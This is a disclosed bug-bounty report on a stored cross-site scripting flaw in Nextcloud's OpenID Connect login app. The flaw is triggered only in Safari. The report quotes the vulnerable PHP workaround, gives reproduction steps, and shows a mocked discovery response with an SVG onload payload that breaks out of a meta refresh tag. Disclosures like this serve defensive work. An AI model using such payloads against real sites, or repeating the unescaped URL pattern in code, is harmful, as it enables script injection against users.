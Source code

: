 # [user_oidc] Stored XSS via Authorization Endpoint - Safari-Only

## Report Details
- **Report ID**: 1687410
- **URL**: https://hackerone.com/reports/1687410
- **State**: Closed
- **Severity**: low
- **Submitted**: 2022-08-31T13:13:12.592Z
- **Disclosed**: 2022-12-18T12:41:59.578Z

## Reporter
- **Username**: lauritz
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nextcloud

## Vulnerability Information
## Summary:
The [OpenID Connect User Backend](https://github.com/nextcloud/user_oidc/) allows users to login to Nextcloud using SSO.

A workaround that was apparently implemented for the *Safari*  browser enables stored Cross-Site-Scripting (XSS). The vulnerability only affects user agents that include "**Safari**" within their user agent string and is further limited by a restrictive Content-Security-Policy that is applied on the affected endpoint.

## Vulnerable Code
`/var/www/html/custom_apps/user_oidc/lib/Controller/LoginController.php`
```php
		// Workaround to avoid empty session on special conditions in Safari
		// https://github.com/nextcloud/user_oidc/pull/358
		if ($this->request->isUserAgent(['/Safari/']) && !$this->request->isUserAgent(['/Chrome/'])) {
			return new Http\DataDisplayResponse('<meta http-equiv="refresh" content="0; url=' . $url . '" />');
		}
```


## Exploit/Steps To Reproduce
0. Setup Nextcloud using the docker image:
```console
$ docker run -p 8081:80 nextcloud:latest
```
1. Enable `user_oidc` module via http://localhost:8081/settings/apps/integration/user_oidc
2. Configure plugin via http://localhost:8081/settings/admin/user_oidc - add a provider with arbitrary identifier, client_id and client_secret. Include the following URL as discovery endpoint: https://lhq.at/poc_jkhfdasgfdaskjlfadskhfdas.php.     
{F1894251}

The mocked discovery endpoint responds as follows:
```http
HTTP/1.1 200 OK
Content-Type: application/json; charset=utf-8
[...]

{
  "issuer":"http:\/\/idp.local:3000",
  "authorization_endpoint":"'\" http-equiv=><svg\/onload=alert(document.domain)>",
[...]
} 
```
3.  Launch a login flow using a Safari browser: http://localhost:8081/login.    
Nextcloud responds as follows without sufficiently encoding or filtering the `authorization_endpoint`:
```http
HTTP/1.1 200 OK
Date: Wed, 31 Aug 2022 12:47:57 GMT
Server: Apache/2.4.54 (Debian)
Referrer-Policy: no-referrer
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
X-Permitted-Cross-Domain-Policies: none
X-Robots-Tag: none
X-XSS-Protection: 1; mode=block
X-Powered-By: PHP/8.0.21
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-cache, no-store, must-revalidate
Pragma: no-cache
Content-Security-Policy: default-src 'none';base-uri 'none';manifest-src 'self';frame-ancestors 'none'
X-Request-Id: yUWr3aQshJ5OHyMuzG1j
Feature-Policy: autoplay 'none';camera 'none';fullscreen 'none';geolocation 'none';microphone 'none';payment 'none'
Content-Disposition: inline; filename=""
Vary: Accept-Encoding
Content-Length: 492
Connection: close
Content-Type: text/html; charset=UTF-8

<meta http-equiv="refresh" content="0; url='" http-equiv=><svg/onload=alert(document.domain)>?client_id=test.local&response_type=code&scope=openid+email+profile&redirect_uri=http%3A%2F%2Flocalhost%3A8081%2Fapps%2Fuser_oidc%2Fcode&claims=%7B%22id_token%22%3A%7B%22email%22%3Anull%2C%22name%22%3Anull%2C%22quota%22%3Anull%7D%2C%22userinfo%22%3A%7B%22email%22%3Anull%2C%22name%22%3Anull%2C%22quota%22%3Anull%7D%7D&state=FB8IZL2JE55LJ1Y5HJAINPY6OTDQ16P1&nonce=356M5O3J1PKMRKJNBKE40RUGJA06O40E" />
```

The execution of JavaScript is prevented by the `Content-Security-Policy` header:      
{F1894250}

## Impact

Stored XSS. The impact is limited due to the restrictive CSP that is applied on this endpoint.

## Attachments
- xss2.png
- xss1.png
